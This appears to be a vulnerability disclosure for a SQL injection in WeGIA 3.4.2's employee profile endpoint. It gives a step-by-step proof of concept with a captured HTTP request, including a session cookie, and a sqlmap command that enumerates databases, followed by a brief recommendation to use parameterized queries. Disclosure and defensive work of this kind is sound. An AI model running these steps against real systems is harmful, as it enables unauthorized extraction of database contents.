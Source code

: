 VIDEO POC: https://youtu.be/W648Rq4_DnE

Vulnerability Type: SQL Injection (Union-based / Error-based exfiltration)

#Affected Application: WeGIA version 3.4.2

#Vulnerable Endpoint: /html/funcionario/profile_funcionario.php?id_funcionario={ID}

#Vulnerable Parameter: id_funcionario (expected to be numeric, but unsafely concatenated into the query)

#Impact: Full exfiltration of database content (database names, tables, columns, sensitive records). Severe confidentiality breach and potential total data compromise.

🔧 PoC Step-by-Step

1 - Authentication:
Log into the WeGIA 3.4.2 platform with valid credentials (e.g., administrator account).

![image](https://github.com/user-attachments/assets/330d5f02-c10d-45c5-b541-b0d9cacbb4ed)

2 - Prepare a Test Record:
If necessary, register a new employee to obtain a controlled id_funcionario.

![image](https://github.com/user-attachments/assets/498ed9b6-b393-4c8c-9648-043c8054a348)

![image](https://github.com/user-attachments/assets/ce0a6536-5963-4b56-829c-1669f36712f2)

3 - Intercept and Save the Request:

![image](https://github.com/user-attachments/assets/035286ba-ea6f-4517-9b1d-ee7d1d861914)

4 - Access the employee profile page for a given ID, for example:

![image](https://github.com/user-attachments/assets/0dd122c3-d42d-40a8-a6db-e01cbc428805)

GET /html/funcionario/profile_funcionario.php?id_funcionario=2 HTTP/2  
Host: demo.wegia.org  
Cookie: _ga=GA1.1.620166737.1749629529; PHPSESSID=elbvoreo9ua2cs8812amnokbdc; _ga_F8DXBXLV8J=GS2.1.s1750752029$o5$g1$t1750752048$j41$l0$h0  
Accept-Language: pt-BR,pt;q=0.9  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Dest: document  
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"  
Sec-Ch-Ua-Mobile: ?0  
Sec-Ch-Ua-Platform: "Windows"  
Referer: https://demo.wegia.org/html/funcionario/informacao_funcionario.php  
Accept-Encoding: gzip, deflate, br  
Priority: u=0, i  

Use a proxy tool (Burp Suite, OWASP ZAP, etc.) to intercept and save this request in a file, e.g., request.txt.

5 - Run sqlmap with the Saved Request:

![image](https://github.com/user-attachments/assets/2494d08b-f54d-4f82-9562-4e65010cf5c7)

Execute sqlmap pointing to the saved file, testing injection and enumerating databases:

#sqlmap -r request.txt --batch --dbs

Sqlmap identifies the injection point in id_funcionario and confirms that the database is MySQL/MariaDB.

6 - After processing, sqlmap or manual analysis reveals existing databases, such as information_schema and wegia.

![image](https://github.com/user-attachments/assets/34720bfa-070c-4afc-b3ca-10f6997a5769)


⚠️ Recommendations & Mitigations

Prepared Statements / Parameterized Queries:
Always use bound parameters for id_funcionario instead of directly concatenating it into SQL.
